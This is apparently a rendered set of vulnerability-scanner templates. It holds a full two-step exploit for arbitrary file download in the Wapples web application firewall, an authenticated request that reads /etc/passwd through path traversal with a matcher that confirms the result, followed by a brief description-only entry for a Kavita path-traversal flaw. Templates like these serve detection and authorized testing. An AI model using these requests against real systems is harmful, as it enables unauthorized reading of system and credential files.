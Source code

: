
# Wapples Web Application Firewall - Arbitrary File Download

- severity - high
- tags - wapples,firewall,lfi,authenticated

## Requests

### Step - 1

```
POST /webapi/auth HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

id={{username}}&password={{password}}

```

### Step - 2

```
GET /webapi/file/transfer?name=/../../../../../../../../etc/passwd&type=db_backup HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Payloads**- username

- password

---

# Kavita - Path Traversal

## Description

- kareadita/kavita allows Path Traversal by abusing the filename parameter of the /api/image/cover-upload.

- severity - medium
- tags - kavita,lfi,huntr
